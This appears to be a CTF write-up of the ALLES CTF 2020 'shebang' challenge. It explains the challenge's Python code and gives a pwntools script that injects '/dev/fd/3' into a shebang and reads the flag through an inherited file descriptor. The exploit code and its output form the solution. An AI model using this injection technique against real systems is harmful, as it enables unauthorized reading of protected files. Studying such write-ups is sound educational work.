 ## Description

```  
Category: Bash  
Difficulty: Easy  
Author: nopinjector

Shebang provides us with nice kernel-supported execution functionality since
1980.

Challenge Files: shebang.py Dockerfile ynetd  
```

## Analysis

We have 3 files, but `shebang.py` is the important one:

```python  
#!/usr/bin/python3 -u  
import os  
import secrets

NOBODY = 65534  
NOGROUP = 65534

def check_input(data):  
   if b'.' in data:  
       os._exit(1)

def main():  
   os.open('/bin/bash', os.O_RDONLY)  
   fd = os.open('./flag', os.O_RDONLY)  
   os.dup2(fd, 9)

   path = os.path.join('/tmp', secrets.token_hex(16))

   print("#!/d", end="")  
   data = os.read(0, 0x10)  
   os.close(0)  
   check_input(data)

   fd = os.open(path, os.O_CREAT | os.O_RDWR, 0o777)  
   os.write(fd, b'#!/d' + data)  
   os.close(fd)

   pid = os.fork()  
   if pid == 0:  
       os.setresgid(NOGROUP, NOGROUP, NOGROUP)  
       os.setresuid(NOBODY, NOBODY, NOBODY)  
       try:  
           os.execv(path, [path])  
       except:  
           os._exit(-1)  
   else:  
       os.waitpid(pid, 0)  
       os.unlink(path)

if __name__ == '__main__':  
   main()  
```

Let's break it down. We can't use `.` in our input:

```python  
def check_input(data):  
   if b'.' in data:  
       os._exit(1)  
```

`main` opens 2 files right away. `/bin/bash` at fd `3`, and `./flag` which it
dups to fd `9`.

```python  
   os.open('/bin/bash', os.O_RDONLY)  
   fd = os.open('./flag', os.O_RDONLY)  
   os.dup2(fd, 9)  
```

Then it prompts for 16 bytes of input, prepends it with `#!/d`, and writes the
contents to a file under `/tmp`:

```python  
   path = os.path.join('/tmp', secrets.token_hex(16))

   print("#!/d", end="")  
   data = os.read(0, 0x10)  
   os.close(0)  
   check_input(data)

   fd = os.open(path, os.O_CREAT | os.O_RDWR, 0o777)  
   os.write(fd, b'#!/d' + data)  
   os.close(fd)  
```

After that, it forks and the child calls `execv` on our new temp file.

```python  
   pid = os.fork()  
   if pid == 0:  
       os.setresgid(NOGROUP, NOGROUP, NOGROUP)  
       os.setresuid(NOBODY, NOBODY, NOBODY)  
       try:  
           os.execv(path, [path])  
       except:  
           os._exit(-1)  
```

Since the string always starts with `#!/d`, we need to use what we can under
`/dev`.

```  
kali@kali:~/Downloads$ ls /dev  
autofs           full          port    snapshot  tty17  tty31  tty46  tty60
vcs    vcsu  
block            fuse          ppp     snd       tty18  tty32  tty47  tty61
vcs1   vcsu1  
bsg              hidraw0       psaux   sr0       tty19  tty33  tty48  tty62
vcs2   vcsu2  
btrfs-control    hpet          ptmx    stderr    tty2   tty34  tty49  tty63
vcs3   vcsu3  
bus              hugepages     pts     stdin     tty20  tty35  tty5   tty7
vcs4   vcsu4  
cdrom            initctl       random  stdout    tty21  tty36  tty50  tty8
vcs5   vcsu5  
char             input         rfkill  tty       tty22  tty37  tty51  tty9
vcs6   vcsu6  
console          kmsg          rtc     tty0      tty23  tty38  tty52  ttyS0
vcs7   vcsu7  
core             log           rtc0    tty1      tty24  tty39  tty53  ttyS1
vcsa   vfio  
cpu_dma_latency  loop-control  sda     tty10     tty25  tty4   tty54  ttyS2
vcsa1  vga_arbiter  
cuse             mapper        sda1    tty11     tty26  tty40  tty55  ttyS3
vcsa2  vhci  
disk             mem           sda2    tty12     tty27  tty41  tty56  uhid
vcsa3  vhost-net  
dri              mqueue        sda5    tty13     tty28  tty42  tty57  uinput
vcsa4  vhost-vsock  
dvd              net           sg0     tty14     tty29  tty43  tty58  urandom
vcsa5  zero  
fb0              null          sg1     tty15     tty3   tty44  tty59
vboxguest  vcsa6  
fd               nvram         shm     tty16     tty30  tty45  tty6   vboxuser
vcsa7  
kali@kali:~/Downloads$ ls /dev/fd  
0  1  2  3  
```

We should be able to do something with fd 3 (`/bin/bash`) and fd 9 (`./flag`).

## Solution

After a bit of trial-and-error, this is what I ended up with:

```python  
#!/usr/bin/python3  
from pwn import *

#context.log_level='DEBUG'  
#p = process(['./shebang.py'])  
#p = process(['ncat', 'localhost', '1024'])  
p = process(['ncat', '--ssl',
'7b00000060bf195c66261d67.challenges.broker5.allesctf.net', '1337'])  
p.recvuntil('#!/d')  
p.sendline('ev/fd/3\ncat <&9')  
flag = p.recvline().rstrip()  
print(flag)  
```

That will use the open file descriptors to create and execute the equivalent
of this bash script:

```bash  
#!/bin/bash  
cat ./flag  
```

Run it against the remote service and we get our flag:

```  
kali@kali:~/Downloads$ ./shebang_solve.py  
[+] Starting local process '/usr/bin/ncat': pid 23080  
b'ALLES{reusing_filedescriptors_saves_resources}'  
```  

Original writeup
(https://github.com/dobsonj/ctf/tree/master/writeups/2020/allesctf/shebang#shebang).